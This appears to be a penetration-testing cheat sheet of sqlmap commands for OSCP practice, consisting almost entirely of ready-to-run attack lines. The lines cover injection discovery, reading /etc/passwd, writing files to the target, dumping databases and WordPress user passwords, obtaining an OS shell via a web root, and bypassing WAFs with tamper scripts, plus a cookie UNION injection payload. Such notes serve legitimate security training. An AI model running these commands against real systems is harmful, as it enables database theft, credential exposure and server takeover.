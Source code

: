 # Sqlmap

| [https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap) |
| ---------------------------------------------------------------------------------------------------------------------------------- |
| [https://github.com/sqlmapproject/sqlmap/wiki/Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)                           |
| [https://wiki.owasp.org/index.php/Automated\_Audit\_using\_SQLMap](https://wiki.owasp.org/index.php/Automated_Audit_using_SQLMap)  |

{% hint style="info" %}
Tips: practice with sqlmap to understand attacks and replicate them manually since it is not allowed on OSCP.
{% endhint %}

<pre class="language-bash" data-overflow="wrap" data-full-width="true"><code class="lang-bash"># To find quicker injections (time-based are slower)
sqlmap -r req --batch --technique BEA --level 5 --risk 3 
# Find write privileges (privilege to write files on the target)
sqlmap -r request -p o --privileges
echo "this is a test" > test
sqlmap -r request -p o --file-write test --file-dest /tmp/mytest
sqlmap -r req --file-read=/etc/passwd --threads 10 # threads only for non-timed injections
<strong>
</strong># If we don't want any slow queries we will remove T and Q and instead use BEUS as our potential techniques. Furthermore we want to increase the level and risk of the testing, to make sure any techniques are properly identified.
sqlmap -u http://$IP/file.php?param=sth --data="user=abc&#x26;pass=abc" -p user --level 5 --risk 3 --technique=BEUS --batch
sqlmap -u http://$IP/file.php?param=sth --data="user=abc&#x26;pass=abc" -p user --privileges
<strong>
</strong><strong># ENUMERATE THE DATABASE
</strong>sqlmap --batch -r request.txt --dbs
# ENUMERATE TABLES
........ -D $database --tables
# ENUMERATE COLUMNS
........ -D $database -T $table --columns
# DUMP SPECIFIC COLUMNS
....... -D $database -T $table -C column1,column2,column3 --dump
# GET OS SHELL
....... --os-shell
# BYPASS WAF
sqlmap -u 'http://www.site.com:80/search.cmd?form_state=1' --level=5 --risk=3 -p 'item1' --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,percentage,randomcase,randomcomments,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
# HEADERS
sqlmap  -u http://sqhell.thm --headers="X-forwarded-for:1*" --dbms mysql
# SEE THE FULL QUERY
sqlmap –u "http://localhost/test/vuln.aspx?album=1465"
       –-sql-query="select info from information_schema.processlist"


sqlmap -u http://$IP/file.php?user=1 -p user
?user=1 -p user --dump
sqlmap -r request.txt -p id --os-shell --web-root "/var/www/html/" # web-root is where to upload the malicious file to execute commands

sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id"
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --dump
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell

# CUSTOM INJECTION
sqlmap -u "http://www.site.com/?page_id=4&#x26;cid=1&#x26;show=1" -p "show" --technique=B --dbms=mysql --sql-query="select user_login,user_pass from wp_users"
# Available techniques:
B: Boolean-based blind
E: Error-based
U: Union query-based
S: Stacked queries
T: Time-based blind
Q: Inline queries
         
# Command examples:
https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet
# All-in-one cheat sheet:
https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
# First intercept the request with Burp (login page, search bar, etc.)
# Save this request into a text file. We can then pass this into SQLMap to use our authenticated user 
sqlmap -r request.txt --dbms=mysql --dump

# WITH COOKIE
# If the cookie PoC is
["84')) OR 1=2 UNION ALL SELECT 1,2,@@version,4#"]
# Change the cookie of your request.txt with * to mark the injection point:
cookie=["84')) OR 1=2 *#"]
# Now we can feed sqlmap
sqlmap -r request
# Do it manually to not skip the injection point and the cookie analysis

sqlmap -u http://10.10.143.130:5000/challenge3/login --data="username=admin&#x26;password=admin" 
--level=5 --risk=3 --dbms=sqlite --technique=b --dump

# Enconding function // custom script
https://dharma-adiputra.medium.com/playing-with-sqlmap-tamper-script-9c008798190f 
--tamper=mytamper
Tamper scripts are useful when just a part of the parameter is vulnerable and if we want to evade FW/IDS
--force-ssl # in case we are attacking HTTPS

</code></pre>
